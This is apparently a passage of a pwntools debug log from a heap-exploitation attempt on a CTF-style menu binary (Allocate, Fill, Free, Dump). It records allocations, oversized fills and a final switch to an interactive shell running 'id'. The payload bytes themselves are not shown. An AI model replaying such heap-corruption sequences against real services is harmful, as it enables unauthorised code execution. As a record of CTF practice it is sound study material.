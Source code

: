 ``` Python LOG
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'104\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 2\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'104\n'
[DEBUG] Received 0x2b bytes:
    b'Size: Allocate Index 3\n'
    b'1. Allocate\n'
    b'2. Fill\n'
[DEBUG] Received 0x21 bytes:
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Sent 0x3 bytes:
    b'27\n'
[DEBUG] Received 0x4b bytes:
    b'Index: Size: Content: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x2 bytes:
    b'8\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 5\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Sent 0x2 bytes:
    b'5\n'
[DEBUG] Sent 0x3 bytes:
    b'40\n'
[DEBUG] Received 0x16 bytes:
    b'Index: Size: Content: '
[*] Switching to interactive mode
 Index: Size: Content: $ id
```